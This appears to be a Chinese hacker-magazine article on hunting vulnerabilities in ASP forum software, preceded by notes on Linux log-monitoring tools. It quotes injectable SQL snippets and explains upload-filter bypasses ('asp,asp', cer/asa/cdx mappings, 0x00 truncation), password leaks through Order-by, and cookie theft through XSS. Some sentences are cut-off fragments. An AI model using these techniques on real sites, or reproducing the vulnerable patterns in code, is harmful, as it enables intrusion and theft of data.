Logcheck 可以自动地检查日志文件，定期检查日志文件以发现违反安全规则以及异常的活动。它先把正常的日志信息删除掉，把一些有问题的日志保留下来，然后把这些信息 email 给系统管理员。Logcheck 用 Logtail 程序记住上次已经读过的日志文件的位置，然后从这个位置开始处理新的日志信息。Logcheck 主要有下面几个主要的文件。

| 文件 | 说明 |
|---|---|
| logcheck.sh | 可执行的脚本文件，记录 Logcheck 检查哪些日志文件等，可加入 crontab 定时运行。 |
| logcheck.hacking | Logcheck 检查的模式文件。和下面的文件一起按从上到下顺序执行，表明入侵活动模式。 |
| logcheck.violations | 表示有问题和违背常理活动的模式，优先级小于上面的模式文件。 |
| logcheck.violations.ignore | 与 logcheck.violations 配对，表示不关心问题的模式文件。 |
| logcheck.ignore | 最后一个模式文件。若前面模式都不匹配，则输出到报告中。 |
| Logtail | 记录日志文件信息。 |

Logcheck 首次运行时读入相关日志文件的所有内容。Logtail 会在日志文件目录下为每个关心的日志文件建立一个 logfile offset 偏移量文件，以便下次检查时从这个偏移量开始检查。Logcheck 执行时，将未被忽略的内容通过邮件形式发送给 logcheck.sh 中系统管理员指定的用户。

#### （2）Logrotate

一般 Linux 发行版中都自带这个工具，它可以自动使日志循环、删除保存最久的日志。它的配置文件是 `/etc/logrotate.conf`，我们可以在这个文件中设置日志循环周期、日志备份数目以及如何备份日志等。在 `/etc/logrotate.d` 目录下，包括一些工具的日志循环设置文件，如 syslog 等；在这些文件中指定了如何根据 `/etc/logrotate.conf` 做日志循环，也可以在这里面添加其他文件以循环其他服务日志。

#### （3）Swatch

软件下载地址：ftp://ftp.stanford.edu/general/security-tools/swatch/

Swatch 是一个实时的日志监控工具，我们可以设置感兴趣的事件。Swatch 有两种运行方式：一种可以在检查日志完毕退出，另一种可以连续监视日志中的新信息。Swatch 提供了许多通知方式，包括 email、振铃、终端输出、多种颜色等。安装前必须确认系统支持 Perl。

Swatch 软件的重点是配置文件 swatchmessage，这个文本文件告诉 Swatch 需要监视什么日志、需要寻找什么触发器和当触发时所要执行的动作。当 Swatch 发现与 swatchmessage 中定义的触发器正则表达式相符时，它将执行在 Swatchrc 中定义的通知程序。

写到这里，Linux 下的常见黑客工具都介绍得差不多了。虽然上面所介绍的软件只是 Linux 大海中的几朵浪花，但随着越来越多的用户加入到 Linux 大军，我们相信优秀的 Hack Tools 和 Linux Hacker 也将越来越多，这反过来也将促进 Linux 操作系统逐步走向成熟，我们拭目以待。



## 如何有效地寻找ASP漏洞

最开始拿到这篇选题的时候，真是觉得编辑给了我一个硕大的难题，倒不是怕把吃饭的家伙都给了别人，而是题目实在太大，以我的能力不知能否胜任。考虑再三，还是拿起了笔，想来与人交流应该是胜过闭门造车的。

既然是谈 ASP 的漏洞，当然就不局限在 SQL Injection 或是跨站中，攻击中会用到的一切可利用问题都应该计算入内。文章后面一部分按章节的分类，只是为了行文方便条理清楚而言，并不意味着 ASP 漏洞就这么多。ASP 代码的编写者各不相同，写出来的代码当然各色各异，出现的问题更是什么样的都有。我若在这里想当然地分为几大项几小项，然后条条款款，未免显得太浅薄，所以只是大体地由大到小，由一般到特殊列举一番，其中有些类别交叉了一些相同的例子，是让读者看看不同的路子可以有相同的结果。

文中举出来的例子大多是存在比较广的问题，作为新手找漏洞的指导，这些地方可以读一读，以后看代码的时候，也免得来来回回摸不着头绪。

文归正题。漏洞的存在是有原因的，除了编写者自身的水平外，语言其实也是一个重要因素。对于 VBScript 编码的 ASP 而言，语言方面的先天不足，使得程序员在思考和书写这类代码的时候，面临着比其他语言更多的陷阱。那么，作为原因之一，我们就先从语言本身谈起吧！

## 脆弱的防线——类型系统——

开始还是得简单地说一说类型系统，作为语言必须了解的部分，了解它会对代码的检测有很大的帮助。

什么是类型系统呢？广义的类型一般被定义为一种约束，也就是一种逻辑公式。我们知道，至少对于在汇编层面上，我们能够处理的各种类型数据可以是字符串、整数，还有浮点数和指针等……一种语言可以包含有很多的类型，为了不至于产生错误，编译（或解释）器有一个很重要的工作就是保证运算中类型的一致性。

对于这一点，我们很容易理解，一个数字不能和一个字符串相加减……保证运算中类型的一致性，也是保证软件正确性的一个必要前提，对于更小范围的安全性而言，这自然是编译（解释）器给我们的第一道防线。

然而编译（解释）器终究不是完美的……在各种各样的编译器中，类型系统的问题始终存在。在这方面，比如曾经独树一帜的 VB 解释器……默认情况下，整型、字符串、浮点数都是随你挑的，缺乏强类型系统的支持，是 VB 的一个致命弱点。

作为 VB 的一个子集使用的 VBScript，在 ASP 中肯定也有着相同的问题。最常见的，同时也是现在各种各样的所谓“SQL Injection 检测工具”中能检测到的关于 ID 的注入，就是一个典型的类型问题……于是才有了后面的构造特殊 ID 可注入的情况出现。

这种注入，本质上的原因是类型检查不过关，所以才会有人为的 IsNumeric 函数出现……在检测代码中，我们可以发现所有类型上的模棱两可都要留意，因为这可能就是罪恶之源。

作为一个交叉的例子，我们举一个存在的漏洞作为证据，DVBBS 老版本中 Message.asp 的第 368 行代码如下：

```vb
conn.execute("update message set delR=1 where incept='"&trim(Dvbbs.MemberName)&"' and id in ("&delid&")")
```

这是一个本应该是集合，但却弄成字符串类型的错误。Delid 是提交的输入，就程序本身看来，Delid 描述的应该是一个集合……如果是字符串类型，显然是不正确的，因而潜在地，这个 Delid 就有可能在后继部分造成错误，乃至被作为安全漏洞所利用。

> 类型集合，虽然它算是一个基本的类型，但几乎所有的语言都没有提供它的标准定义和操作。于是程序的编写者不得不自己去用各种其他的类型来模拟它……在实际补完中，我们会看到更多这样的错误集合操作描述，以及在这些描述表达中的疏漏。

可以想象的是，如果是一个字符串型数据，被错误地定义成了整型的数据，在 ASP 中是不太可能被利用的……对于不区分数据类型的 ASP 而言，整型几乎就是字符串的一个子集，所以这种“缩小”范围的类型错误只在理论上有价值。

有关类型系统差不多就是这些了，找多了漏洞，你会看到绝大部分种类的问题都是出在不正常的类型上面的。作为一个基础，不是说类型不对一定就会有安全方面的漏洞，而是在这种情况下，很多程序员可能没有能力正确地去处理数据。

由上我们可以得到一个结论：在仔细检测代码的时候，要注意每一个输入的准确类型……这一步没有准确地找出漏洞所在，也可以大大地缩小我们寻找漏洞的范围。

对于开发者而言，编写代码的时候，一定要准确地认证每一个变量的类型，并用相应的代码保证你所模拟的类型正确无误，这是开发者防止出现安全问题的第一道防线。

最后再来解释一下小标题中“脆弱”的含义。一方面当然是说 ASP 中对于类型检测实在是太弱智，几乎就和没有做一样；另外一方面，“脆弱”也部分地指明类型系统做的事情是非常有限的。

## 前置条件的缺失——逻辑错误（二）

如果当初 Wirth 的 PASCAL 是函数式语言而不是过程式语言的话，也许现在的一切问题都可以解决，因为函数式语言的编写本身就是证明的过程。

这种美好的世界，过程式的语言只管流程，每一步是否正确是由编程者自己保证的，这样的话，程序便有了瑕疵。能像计算机一样思考的人肯定是优秀的程序员，遗憾的是很多编写 ASP 代码的人员顾到了自己的感情，他们不清楚在做一件事情的时候，之前的准备工作是否已经完备。为了能够比较好理解所谓的前置条件，我们还是以一个具体的漏洞开始说起。

老版本的 BBSXP 在 Prison.asp 第 71 到 89 行有一个有趣的错误。这个错误在《BBSXP 倒着看三》中还能找到踪迹，下面就不贴代码了。全面理解这段代码的含义后，我们看到这段代码至少犯了两个错误：第一，没有检测“释放犯人”的状况；第二，没有能准确设定释放后的“权限”。第一个错误，就是典型的前置条件缺失。

可以想象，用来表达释放某个犯人的那段代码，不应该单纯地立即修改对象在数据库中的状态，在这之前，我们最起码还需要确认的是这个人是不是“犯人”。如果这个人的状态根本就不是“犯人”，贸然释放他而出现的情况就会是这个人的状态被设定为释放后的状态。以前文中的例子来看，倘若是释放一个管理员，结果是这个管理员被降低了权限，成为普通的成员。在前置条件（被释放者是否为犯人）没有确定之前，任何相关的处理代码，都潜在地存在问题。

这一类问题的出现根源完全是逻辑上的，前面所说的类型系统基本上已经不能起到作用了。对于代码的编写者和代码的查看者而言，清楚地了解程序的每一个流程是关键，如果想找到这样的漏洞，最起码要对代码每一段所作的任何事情都要分析清楚，然后凭经验或者是美妙的想象力来判断这里是否有条件不充分的情况出现。

> 一般而言，对于完成某项功能的过程或者函数，前置条件缺失的情况还是很常见的，像上面一样直接形成漏洞的情况虽然不多，但这也是一个潜在的隐患。

我找漏洞的时候，对于通常使用的函数往往是优先查看，然后记录下来可能的问题以及触发的条件。在调用函数的文件中，一旦发现触发条件满足，一个漏洞就出来了。对于完成某个功能的代码段，它们不被抽象成函数，多半是因为使用的次数较少，因而只要结合上下文看看是否考虑了所有的条件即可。花太多的时间去查看这一段与其他段代码的关联，太费时间不说，效果也不好，所以就没有必要了。

关于哪些是必要的前置条件，前面说过凭经验还有想象力，对代码查看者的要求似乎高了一点。这里说一个比较简单但是麻烦的方法，那就是穷尽所有的处理对象，例如处理的对象是用户，那你就把所有类型的用户都在头脑里面走一遍，看看有没有出问题的时候；又例如处理的是 ASCII 码，你就想想 0 到 255 中有没有哪个字符会弄出点毛病？这种穷尽输入的方式不太需要动脑筋，但是通常情况下很有效，对于 SQL Injection 漏洞，基本上是够了。

对于其他类型的漏洞，也还是颇有效果的。除了上面的很典型的例子以外，再一起来看一个 SQL Injection 在这种情况下进行表述的查找过程，即官方版 BBSXP 中 Setup.asp 第 238 行中的 Log 函数。单独看函数代码本身可以看出来，程序员没有对 `Request.ServerVariables("HTTP_USER_AGENT")` 进行任何处理，这一步前置条件的缺失，导致的是所有调用这个 Log 函数处都有注入的危险，这完全是经验性质的。

于是我们可以得到一个结论：对于代码中（调用函数或者过程）完成特定功能的代码段、过程、函数，在理解的基础上充分地考虑其前置的条件是否充分。如果存在条件的遗失，则记录下遗失条件的类型和可利用的途径，然后结合上下文的情况，看看这些缺陷能不能够进一步被利用而导致安全上的问题。

对于编写代码的人来说，编写一段功能代码以前，要先充分地考虑到各种前提条件是否都具备了，不要指望在调用的时候让调用者去做。安全代码一个重要条件就是保证自身不出错，缺陷不应该被隐藏或是等待他人修补，而是应该自己去设法消除。

## 隐藏数据的泄漏——逻辑错误（二）

总的来说，这一类的问题在 ASP 中还不是特别常见，但是以后可能会有相类似的漏洞被人不断发现以及利用。还是以一个漏洞作为开始。

```vb
Order=HTMLEncode(Request("Order"));

sql="select * from [user] Order by "&Order&" Desc"
```

这个漏洞也是 BBSXP 中的，精华区脚本攻击栏目已经有文章详细介绍了。我们仔细分析一下，从类型系统来看，Order 应该是一个字符串，从逻辑上来看，这个 Order 应该是在 USER 表中一个存在的列名。好了，我们假设类型系统已经起了作用，而且前置条件“Order 应该是在 user 表中一个存在的列名”也在之前的函数调用中完整无误地表达了，还有什么问题呢？问题就出在 Order 为 Password 字段的时候。这个字段说起来应该是属于隐藏的信息，也就是说不管在什么情况下，只要不涉及到身份验证的时候，一切操作都不能对这个字段进行任何修改甚至是查询。

这一步信息的隐藏，在最开始的设计阶段，准确地说是在数据库表设计阶段就应该充分考虑到。普通信息（比如上站次数）与机密信息（比如这里的 Password）至少需要在逻辑上隔绝，在防止跨表式查询攻击的时候，这一点尤为重要。这个漏洞有着它自身的特殊性，由于 Order by 的参与，致使排序式的查询攻击可以实现。

你的位置与被攻击者位置的相对性来计算出对方的内容。放宽限制下，如果 `Order by` 允许带表达式，查询甚至可以精确到每一个字符位，这些都取决于数据库系统的设定。当然，这不是说你针对每一个数据库系统都要对 `Order by` 后面的东西做出精确的外延设定，往往约束的条件可以有更好的安全性，同时又不会给用户的使用带来任何不便。

还有一个简单的例子我们可以看看，就是 DVBBS 中关于 Tongji.asp 的问题。

```sql
sql="select top"&request("n")&" username"
```

当然，你单纯地把它看成注入漏洞也没有错。我们这里只是从另外一个角度来分析问题。代码中的 `n` 肯定应该是一个整型的东西，但是没有正确判断，继而 Password 字段内容没有被很好地隐藏，所以特殊的 `n` 可以把这些字段暴露出来。

同前面的一样，有信息隐藏的错误，不是一定存在安全问题，很多时候都是配合适当的平台才能够被利用。上面举的这 2 个例子都是数据库表设定失误造成的信息泄露。除此之外，还有比较有意思的关于 MS SQL 出错导致信息泄露的问题，同样可以认为是代码的问题。

```sql
conn.execute("update message set delR=1 where ing...='"&trim(Dvbbs.MemberName)&"' and id in ("&delid&")")
```

当 Delid 错误地被设计成一个查询，而且这个查询包含一个特定错误的时候，MS SQL 会返回错误的内容，继而暴露了敏感表的内容。它部分的原因在于前面说的表字段的逻辑隔绝与隐藏没有做好，还有一个原因就是没有隐藏出错的信息。

> 从一个角度想想，程序员面对的是代码，而黑客软件面对的是用户。程序员最终要呈现给用户的是一些可用的东西；在出错的时候，出错的内容应该是友好的，而不是将系统细节（如 MS SQL 返回的错误）直接暴露出来。

隐藏数据的泄漏虽然严重，但在实际操作中并不是特别常见。对于试图找寻漏洞的人而言，这一节总结的结论是：遇到信息隐藏不完整时，未受保护的敏感数据往往可以作为攻击对象。

常见，但是编写人员很容易在这上面犯错误，估计以后这种问题会多起来。检查这一类的漏洞，和上一个逻辑错误一样，仔细想想普通与敏感信息之间的区别，替换各种可能的数据来测试即可。上面说的 `Order by` 的错误，就算对输入进行完整的语义限制，还是会出问题，倘若换一种约束的方式呢？这就是下面我们要说的问题了。

## 放任的权限——逻辑错误（三）

换一种约束方式当然是用另外的方法了。程序员喜欢的是给用户最小的权限，比如上面的排序，按道理只准你按照名字和经验排序就可以了，没有必要把用户提交的 `Order` 语句送给 SQL Server 处理。

法律规定了政府部门的行为；而对人民往往规定“不能做什么”。程序员编写代码就像制定规则：规定只能做什么通常更稳妥，规定不能做什么往往挂一漏万。对于 `Order by`，如果输入不是简单类型处理，而是用 `Switch-case` 分支逐项过滤并设置默认值，安全性会更好。

通常的问题是你可以规定很多“只能做”的事情，但未穷尽所有可能，少了默认项；也许就存在一个特别输入不属于所有规则，于是被放过，权限就丢失了。

用户输入究竟应不应该直接作为 SQL 语句的一部分？一旦你放任这种权限，等于允许用户构造各种 SQL 语句。你做的过滤和约定只是查漏补缺，没有在本质上加控制。极端地说，这时注入甚至不能算漏洞，而是功能设计导致可被滥用。

同样是权限没有管理好，早年有经典问题：ASP 文件上传中 `admin_upload.asp` 本是管理员访问的文件，却可被普通用户直接利用上传文件。上述情况又是权限约束问题的另一面。

## 最新奉献 / NEW TOPIC

栏目编辑 / 刘流 / liuliu@hacker.com.cn

对用户（不同等级、不同来源，或者不同权限等等），程序代码的编写者需要不同的对待，在正确地识别用户的分类情况以后，再根据相应的权限赋予特定的服务，这是很容易理解的。

同样的，理论上无误的东西到了程序设计者手中总会出点问题，前面的例子就是一个典型。本来这个文件只能是获得 Admin 身份认证的用户才能访问，但是它缺乏了必要的认证措施，导致任何用户都可以自由访问，结果就成了一个不小的漏洞。后来很长一段时间好像没有看到过这么严重的问题，但这并不意味着类似情况不存在，只不过是它的表现方式和位置不一样了。仔细的话，你还能在某些论坛中找到，比如枚举的情况不完整，或者是缺乏默认情况导致验证可以被绕过等等。

理解了漏洞的成因，找寻漏洞也就不是很难的事情了。我们得到的结论是：遇到权限验证和分配的时候，往往就是漏洞现身之处。对于各种权限的认证，往往是对应不同的情况有不同的处理，这个时候处理有可能不完整，最为可能的是缺乏默认的约束和验证的绕过。同样的情况还可能出现在那些 Switch-case 语句中，程序员爱犯的一个错误就是忘了默认情况，偶尔也会出现忘记处理几种必要情况的事情。出现大量的 IF 判定的时候，与分支语句一样，也是一个薄弱之处，甚至比分支语句更容易出现问题。看见这一类问题的时候，要理清楚头绪，不要自己先就晕乎了。

大量分支或者判断语句之所以会出现错误或者遗漏，关键是这样程序的路径实在太多了，程序员不好控制，到了最后往往是东南西北分不清楚数据到底从什么地方过来的，这就引出了另外一个问题——

### 路径与作用域

这里说的路径，不是计算机文件系统中的路径，而是程序流程图中的概念。对付理不清楚的程序流程路径，测试中有专门的一块叫做路径覆盖。我们找路径方面的漏洞，大概也就是覆盖路径，换句话说就是想出走遍所有路径的办法。我承认这条路是麻烦了一点，但是要找漏洞，总得比写程序的人更要有耐心，不是吗？

> 所谓程序流程图基本上分为控制流和数据流。单看控制流图，其实就是把程序中所有的语句作为图的结点，语句与语句之间的关系作为边。比如一个判断语句，后面可以有两个后继部分，即其真分支和假分支，于是就有两条边；接着后面的两条语句，最后形成图中的边就是路径。可以看到，一旦有一个判断语句，可能的路径就增加了一倍，一个大的程序路径数量是非常恐怖的。如果不是对程序特别熟悉，根本弄不清楚中间将来将去的路子。加上实际执行中真假边走的不一样，就像北京西直门立交桥一样，到时候该跟着哪条路走，压根就是一团乱。

路径方面出现的问题，配合其他的情况，就现在看来在已知的漏洞中出现频率是最高的。最近的 DVBBS 7.0 注入，就是路径没有仔细考虑的问题。这个例子比较复杂，看起来麻烦，好在现在已经有很好的分析文章了，随便找篇文章看看就应该会有比较深刻的理解。限于篇幅，这里给出一个更为简单的例子，是半年前乔客论坛的一个问题，当时似乎没有公布，改版以后就绝迹了。在论坛文件 Gallery.asp 第 62 行有一个正常的 SQL 构造。

```sql
sql="select * from gallery where hidden=1 and types='"&action&"' and id="&id
```

其中第 7、8、9 行则是在此之前对 ID 的处理：

```vb
if action="new" then
  if not(isnumeric(id)) then action="paste"
end if
```

其实之前对于 Action 的处理已经很好了，没有上文说的放任权限的那种情况，但是这里路径却出了问题。明明可以有两条路子走到 62 行，但只有 Action 等于 View 的情况下 ID 被正确处理了；Action 的值如果被设定为 Flash_view，试图对 ID 类型的约束便失去了效果。这是非常简单的注入漏洞，是程序员对路径的模糊认识造成的。现在应该也有不少类似的问题，只是没有这么简单的表现，中间经过的路径更加复杂，看起来也会更麻烦。但是万变不离其宗，只要你能够比写程序的人头脑清楚一点，你就能发现这样的问题。

同样可以通过这个话题引出来的是关于作用域的问题。大体说来，你可以认为从某个节点（语句 A）开始，凡是通过某条路径能够到达的地方，都是它能够起到作用的地方，也就是它的作用域。简单的，比如很多论坛系统中，首先对你提交的帖子编号进行整数判定，然后在整个平坦的作用域中，只要还没有在同一级返回，都是这一个判定能够起作用的地方。比较容易理解的是，语句不能作用到与它不同的分支上面，而且如果一旦返回到上一级函数或者上一层，它的效果就有可能消失了。

像我凭空就这样说说，别人看起来似乎太抽象了，还是另外举一个例子——一个关于间接输入的问题。我们通常不管不顾地对所有输入进行去掉单引号的工作，比如：

```vb
xxx = replace(xxx, "'", "''")
```

这一步是把输入中的单引号换成两个连续的单引号，作了这么一步，肯定可以保证这个变量下次作为字符串被用于 SQL 语句的构造中时，不会出错（我们姑且这么认为）。在这个数据被加入数据库后，由于 SQL 处理中对数据的改动（连续的两个单引号会被编码成一个单引号），Replace 的作用被抵消，其作用已经结束，数据在安全性上便失去了保护。如果只是操作完后就抛弃这个数据，那逻辑上就没有问题，但是这个数据没有被抛弃，而下一次还可能被程序从数据库中拿出来继续使用；这个时候上一次 Replace 的效果已经消失，必须要另外再作一次函数处理来保障，在使用当中才不会出现问题。

反过来，在 2 次使用中没有对它进行处理的话，就会有麻烦。本质上这种间接输入还是会造成可能的注入。例子我在这里就不再列举，在看代码的过程中也许你会发现各种过滤作用被抵消或者失效的地方，接着你就会发现扎眼的漏洞。

这里好像抽象的地方比较多，倘若要前前后后完全写明白的话，没有几万字是不行的。如果你有点基础，我想看这些东西应该不是太困难，而且目前看来这方面出的漏洞好像还是最多的。实际发现过几个后再回过头读这些东西，估计理解就好办多了，而且省了你自己总结的时间。

作为又一个结束，还是稍微总结一下：在代码中，往往会有某些路径走下去就是漏洞出现的时候，这是程序员没有处理好的缘故。造成程序员失误的原因通常是由于程序本身的流程太复杂、过多的调用和太复杂的嵌套。分支都有可能是罪魁祸首。在我们看到有大量条件或者大量分支语句的时候，我们应该习惯性地把所有可能的路子都在头脑里面走上一遍，说不定中间就隐藏了一条小道，通向漏洞。说完了逻辑错误，我们再来说说误用与遗漏的问题。

### 误用——自作多情的程序员错误

有句话叫做“世上本无事，庸人自扰之”，很多代码读到最后就有这种强烈的感觉。明明很简单而且不会出问题的地方，给自作聪明的程序员写出来，好像是太不得了的问题。这种小题大做的事，最后的结果做得没错就算了，坏就坏在有时候做得还不对，真是叫人哭笑不得。空口无凭，先来看一个比较平凡的漏洞，是关于对标准函数的理解问题的。

最新的齐客论坛免费版本中，文件 Upload.asp 从 43 行开始是对上传的类型进行规定，其功能是如果发现有“.asp”存在的话，先就把这个可能性给封杀了。我们可以这样理解这段代码的意义，有一个特定的集合来记录管理员规定的上传类型，如果发现其中包含有“.asp”就应该去掉，这应该说没问题。但是由于 VB 中没有集合的操作，只好程序员去模拟，于是问题就来了：

```vb
up_tem0=replace(up_tem0,".asp","")
```

解释一下编写这段代码的人为什么这么想：首先所有可能扩展名都已经一一列举在一个变量中，而且每两个之间用逗号分割。这样在保证扩展名中不存在逗号的情况下，如果准确地发现有“.asp”，一定非法。这种想法对于集合来说没有错误，而且在这条语句之前的语句已经对边界情况进行了处理，即使 ASP 这个扩展名在最开始或者最后头也不会漏报或者误报。那么，问题出在什么地方呢？问题出在要处理的那个字符串根本就不是集合。

这是程序员模拟的一个集合类型，它缺乏了最起码的一个规则，那就是集合里面相同的元素不能出现 2 次。如果我有 2 个紧挨着的“asp”元素会是怎么样的呢，不妨试试看：

```text
asp,asp
```

这个可以过滤掉吗？要看 Replace 的功能了。Replace 不是递归地去一遍一遍过滤，而有可能是从头开始找到一个匹配的就替换，然后接着找。也就是说上面这个字符串，过滤的过程不是说第一次把第一个“asp”替换成一个逗号，然后再看全部字符串继续替换“asp”，而是一次性的，发现几个“asp”，就替换成几个逗号。第一个替换以后，已经检测到第二个“a”，后面的暂时不构成“asp”，也就逃脱了过滤。

可以做个简单的实验，提交“asp,asp”直接给上面这一句话，看看结果是什么，不出意外的话，得到的结果会是“.asp,”，闹了半天，这个敏感的词汇还在里面，根本没有被过滤掉。

这个漏洞估计应该是程序员对函数的内部实现不太清楚而导致的，但是根源却在于他把简单的事情做复杂了——既然有了逗号分割的集合，为什么不 Split 一下然后逐个比较呢？完全是程序员耍小聪明，结果砸到了自己的脚。

给我们这样子一折腾，可以看到，如果你是管理员，可以自由修改允许的那些原始后缀名的话，弄上 2 个连续的 ASP 作为可上传的后缀名，在前台就可以随便上传 .asp 文件了。

这种误用还有其它的表现，不过大多数情况下，漏洞都出现在程序员自己编写的有关集合的操作中。如果这种集合的操作或者元素涉及到可利用的部分，比如上传的文件扩展名或者特殊权限用户的话，丁点的错误就可能成为安全漏洞。

再来看一下另外一个不能利用，但是同样让人疑惑的错误。在 Forum_lsaction.asp 第 11 行有如下一行代码：

```vb
if instr("|"&dim_cause&"|","|"&cause&"|")<>1 then cause=""
```

还是前面的问题，这是模拟的集合中的查询操作。这里倒是用一个小竖线分割了，如果输入的 Cause 中间也有竖线的话，那又会是一个什么样的情况呢，举一个例子：

```text
a|bc      a|b
```

如果这 2 个变量分别如上的话，明显是一个逻辑错误。这类错误在相同的论坛中大量存在，类似让人疑惑的模拟查询操作，有对扩展名的，也有对用户名的，其中注册用户名中不能有竖线，总算是逃过了被利用的可能，但是潜在的危险，还是消除了比较好。

这就是前面说的模拟集合操作的一些错误。关于程序员的误用错误，可以多种多样，上面只是一些我遇到的表现而已。这本来是一个大类，限于水平，我实在是不能给出更多的例子了。看多了代码以后，可能你也会有一些发现。这一类错误往往是看代码的人和写代码的都不容易发现，但是发现了的话，肯定是个大玩意儿。

经验性质地给出一个小结吧。关于误用的漏洞，如果不太了解函数内部的情况，就不容易发现，所以还是要平时积累，觉得有想法就动手去做试试看。容易出错的地方是关于集合的操作。由于没有集合这种标准类型，需要用字符串对集合操作进行模拟，比如 replace、split 等函数，这些都是罪恶之源，多想多积累，说不定就能看到问题所在了。

## ☆ 遗失的可能——程序员的另一个错误

相信我看过的所有论坛中，没有一个是按照软件工程中除“边做边改”外的任何一个模型做出来的。一般的可能性是大家先一窝蜂写代码，写好了准备卖钱或者发布的时候才玩了命地写文档。这个时候，所谓的需求分析等文档，全部是按照代码写的，若是检查起来，代码当然满足文档的要求。可惜现实是糊弄不过的，存在漏洞代码再漂亮，给一个有经验的人看来，光靠文档哪能骗得过去。

编写代码之前缺乏文档会造成一个什么问题呢？除了没有一个标准的规范以外，还有一个可能就是本身的安全性和可行性并没有得到评估——根本就无人评估。编写代码的时候，所有出现的问题都要临时去想办法解决，所有的可能性都要临时去想。一个人的能力有限，而时间压力等因素可能不会给你机会去深究，这种情况下，难免不出现可能性遗失的事情。

例如常见的通过 `Request.ServerVariables("HTTP_USER_AGENT")` 来注入问题，这个变量的来源到底是什么，可能性有哪些，也许代码编写者一开始就没有搞清楚过，只是想当然地就开始在里面按“ie”或者“mozilla”字符串了。当然它有可能是 Netscape，或者 IE 等等提交的，但也有可能被人在 HTTP 协议上伪造。只考虑其中一种可能性而丢掉了其它的可能性是造成这个漏洞的关键，然后这个变量再配合构造 SQL 语句，一个经典而且完整的动网漏洞就这样出现了。

如果说这个例子有些模糊，还不能很好地反映问题所在的话，让我们换一换方位，再来看各大论坛普遍存在的上传文件格式的问题。很多论坛为了安全性的考虑，防止客户上传 asp 文件，在代码中设置了不能上传相关类型文件的规定。试想，纵使管理员失败到了极点，也不会去设定允许上传这样的文件到可执行的目录，怕就怕攻击者通过其它漏洞得到了管理员权限，再通过这种途径得到 Shell，所以在代码中加上这一段保护的初衷是非常好的——然而仅仅是 asp 文件就够了吗？

如果你安装有 IIS 的话，打开“属性”->“主目录”->“配置”，看看有哪些文件默认情况下扩展名和 asp 是同样映射到 asp.dll 中的？我打赌你至少能看到 cer、asa、cdx 这 3 种，也就是说，单单禁止掉 asp 文件的上传，考虑还是太不周全。你不能保证用户把后面三种映射都删除掉，而你在用户手册中也没有说叫他们删除掉，所以这是一个很不负责的做法。前面说过，该自己保证的，不要等到别人去做，也不要期望别人有这个保护，所以要禁止，就要彻底地干掉这 4 种可能的文件类型，在后续的版本中，也许你还要考虑 aspx、asax 等等。

下次你看代码的时候，也可以注意一下这种类型的错误，它也是“规定你不允许做什么”这一行为的失败。这种问题存在得太普遍了，以至于开发者都不认为它是一个问题，但是当你需要渗透或者通过同一 IP 的另外网站注入攻击的时候，你就知道这个东西是多么有用了。

本节所述的也是一个非常庞大的问题，就我能收集到的关于无意丢掉各种可能性的问题代码，漏洞就有很多。通常造成漏洞的原因，除了前面说的文档缺失造成无法评估之外，还有就是程序员本身对服务器、协议或者各种软件接口的了解程度不够。它的表现形式虽然是多种多样，但归根到底就是代码编写者的考虑不够。出现这一类漏洞的地方可能很多，也没有一个很好的方法可以限定出问题几率较大的地方，所以基本上看代码的人不会刻意去寻找（上面说的那个除外），如果碰到了涉及服务器配置、第三方软件调用等等，而你又恰好比较熟悉，那可以深入一下，指不定你想到的可能性，代码编写者就没有想到。

以同样的眼光来看跨站的问题，开发者认为一个用户提交的内容给另外一个用户浏览没有问题，然而当这种内容以 HTML 的文法表示出来的时候，或许给了恶意攻击者嵌入 JavaScript 来做某些事情的可能，比如获取 Cookie——通常这里面有用户个人敏感的信息。这也是一种被遗失掉而没有考虑到的可能。

末了，再做个总结：程序员考虑不周全是常见的事情，找出这种漏洞的关键在于你比程序员更加了解各种配置或者接口的情况——这是可能的，因为程序员不是超人。除了特定格式普遍存在的问题以外，花大功夫去深究这一类漏洞不是很值，但是碰到了你觉得似乎有问题的地方，一定不要放过。程序员大部分还是小心谨慎的人，他们能够发现的错误一定会想办法掩盖掉的，如果你发现了味道不对，找到漏洞的希望还是相当大的。

## ☆ 特殊字符——谁能想到？

这一节很简单，也就简单地写了。首先是 SQL 注入中的单引号（只是单引号的问题，其它类型的注入问题前面的方法已经能够处理了）。正常的测试软件和测试用例估计是测不出来，关键是第一个发现的人意识到如果输入中加入一个单引号，虽然在我们看到的代码层面上显然没有任何类型、语义或者逻辑方面的问题，但是生成出来的 SQL 语句却变了味道。继而发现，这种变了味道的 SQL 执行起来可以变化无穷，甚至可以直接威胁到网站甚至服务器的安全，于是我们也跟着大量地发现相同的错误，走着前人走过无数回的道路，一次一次证明单引号会造成问题。

单纯这种漏洞，找法和前面的都不一样。因为固定了出错的模式，所以只要找到什么地方的操作生成了 SQL 语句，并以此为起始点，倒着往上面找就可以了。看看参与生成 SQL 语句的变量，一步一步地经过了哪些过滤，最后再看看是否来自用户提交即可。漏洞存在需要满足两个条件：第一，作为用户提交或者间接提交的数据参与了 SQL 语句生成；第二，缺少有效的过滤与转义。

的提交。第二，没有过滤单引号就被加到了 SQL 语句中间去。值得注意的是，有些时候倒着查看代码，可能会跨越好几个文件，除了耐心之外，清醒的头脑和记忆力也是必须的。

其次就是 0x00 在字符串中的问题。最近的一个表现在于 DVBBS 上传文件中，路径中含有 0x00 会造成整个路径字符串的截断，在存储过程中存成了另外的文件。这也仅是一个特殊字符的问题而已，机理不清楚也不影响我们找漏洞。

找这种漏洞也没有什么技巧，逮到一个程序直接找上传的部分好了，如果发现路径和文件名分离而且路径可以自主控制，那么就按照现在外面满天飞的程序改写一个试试看，成功了就好，不成功的话，看看是不是走了眼，看看路径一类的到底有什么规定没有，或者是看看权限对不对。

